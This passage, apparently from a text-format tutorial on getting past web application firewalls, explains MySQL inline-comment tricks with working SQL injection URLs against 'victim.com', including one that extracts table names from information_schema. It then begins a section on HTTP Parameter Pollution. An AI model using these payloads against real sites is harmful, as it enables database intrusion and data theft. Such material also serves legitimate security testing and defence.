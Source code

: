 	6. Inline Comments (Mysql Only)

		From MySQL 5.0 Reference Manual, MySQL Server supports some variants of C-style comments. These enable you to write
		code that includes MySQL extensions, but is still portable, by using comments of the following form:

		/*! MySQL-specific code */
		
		In this case, MySQL Server parses and executes the code within the comment as it would any other SQL statement,
		but other SQL servers will ignore the extensions.
		
		A lot of WAFs filter SQL keywords like /union\sselect\ig We can bypass this filter by using inline comments.
		
		[Code]------------------------------------------------------------------------------
		http://victim.com/news.php?id=1/*!UnIoN*/SeLecT+1,2,3--
		[End Code]--------------------------------------------------------------------------
		
		Inline comments can be used throughout the SQL statement so if table_name or information_schema are filtered we can
		add more inline comments
	
		[Code]------------------------------------------------------------------------------
		http://victim.com/news.php?id=/*!UnIoN*/+/*!SeLecT*/+1,2,concat(/*!table_name*/)+FrOm/*!information_schema*/.tables
		/*!WhErE*/+/*!TaBlE_sChEMa*/+like+database()--
		[End Code]--------------------------------------------------------------------------


	
########################################	
 [0x03] - Advanced Bypassing Techniques
########################################
		
	In this section, we offer 2 techniques are "HTTP Pollution: Split and Join" and "HTTP Parameter Contamination". 
From these techniques can bypass a lot of OpenSource and Commercial Web application firewall (WAF)
     
     
	++++++++++++++++++++++++++++++++++++++++++++++++++++
	 [0x03a] - HTTP Parameter Pollution: Split and Join
	++++++++++++++++++++++++++++++++++++++++++++++++++++

		HTTP Pollution is a new class of injection vulnerability by Luca Carettoni and Stefano Di Paola. HPP is a quite simple but
	effective hacking technique. HPP attacks can be defined as the feasibility to override or add HTTP GET/POST parameters by injecting 
	query string. 

	Example of HPP: "http://victim.com/search.aspx?par1=val1&par1=val2"

	HTTP Parameter Handling: (Example)
	
	+------------------------------------------------------------------+
	| Web Server 	  | Parameter Interpretation	 | Example	   |
	+------------------------------------------------------------------+
	| ASP.NET/IIS	  | Concatenation by comma	 | par1=val1,val2  |
	| ASP/IIS	  | Concatenation by comma	 | par1=val1,val2  |
	| PHP/Apache	  | The last param is resulting  | par1=val2	   |
	| JSP/Tomcat	  | The first param is resulting | par1=val1	   |
	| Perl/Apache	  | The first param is resulting | par1=val1	   |
	| DBMan		  | Concatenation by two tildes  | par1=val1~~val2 |
	+------------------------------------------------------------------+
	